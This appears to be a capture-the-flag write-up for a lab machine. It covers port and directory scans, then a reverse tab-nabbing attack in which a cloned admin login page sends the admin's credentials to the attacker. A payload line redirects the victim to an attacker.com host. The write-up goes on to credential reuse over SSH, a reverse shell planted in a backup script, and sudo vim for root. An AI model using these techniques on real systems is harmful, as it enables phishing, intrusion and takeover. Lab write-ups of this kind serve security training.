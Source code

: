 Started with a nmap scan
```
22 OpenSSH 8.2p1 Ubuntu
80 Apache 2.4.41
```
Started a gobuster scan also did a scan in the admin folder for php and js files also
```
/admin
/admin/login.php
/index.php
/register.php
/logout.php
/config.php shows nothing
/reset-password.php
/welcome.php this shows after we login
```
Started a nikto scan found some login pages 

If we go to the site there is a login page as the main site and if you go to `/admin` it says 403 forbidden but if we go to   `/admin/login.php` it gives us a admin login page 
On the website we can make a account and ask us to give  a link and the admin will approve of the blog account I made `test:test123` has to be 6 letters or numbers for the password

Testing the main login page for sqli and the forum post after login and password reset did not find anything

Looking at the source code of the site looks like its vuln to `tab napping` In a situation where an **attacker** can **control** the `href` argument of an `<a` tag with the attribute `target="_blank" rel="opener"` that is going to be clicked by a victim so we made a script that we take the `admin login` page and copy it and add some php code the will output the login to are host machine and then we have to make a `index.php` file and add this code to it so we got 
	`window.opener.location = https://attacker.com/victim.html`
and then we need to setup a php or python web listener and make sure you got `index.php` and `login.php` 
if you have a new browser it might not  actually be able to do this part sometimes and use have to urldecode the password 
	`daniel:<REDACTED>` 
And with these creds we can ssh into the machine 
Now we have to get to the user `adrian` some how found some db creds 
	`adrian:<REDACTED>`   
There was not much in the db but 2 different hashes 
There was a interesting file found in `adrian` folder that we can edit that makes backups so I made a shell script to a bash reverse shell and then edit the python file to call the shell script and now we got a reverse shell as `adrian` and we run `sudo -l ` and we can run vim as root and now we got root access 
